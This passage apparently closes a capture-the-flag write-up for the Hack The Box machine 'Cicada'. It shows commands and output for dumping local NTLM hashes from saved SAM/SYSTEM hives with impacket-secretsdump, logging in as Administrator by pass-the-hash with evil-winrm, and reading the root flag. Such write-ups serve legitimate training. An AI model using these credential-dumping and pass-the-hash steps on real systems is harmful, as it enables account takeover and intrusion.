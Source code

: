 ```bash

impacket-secretsdump -sam sam.sav -system system.sav LOCAL

```
> Result:

```bash

Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```
> I get `NTLM hash` from `Administrator`.

> Connecting to `winrm`:

```bash

evil-winrm -i cicada.htb -u 'cicada.htb\Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get last flag in `C:\Users\Administrator\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
8fd7a8ffe43ffd35cc2dd9134cb7b484
*Evil-WinRM* PS C:\Users\Administrator\Desktop>

```
<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>8fd7a8ffe43ffd35cc2dd9134cb7b484</code>
    </td>
  </tr>
</table>

</div>


---
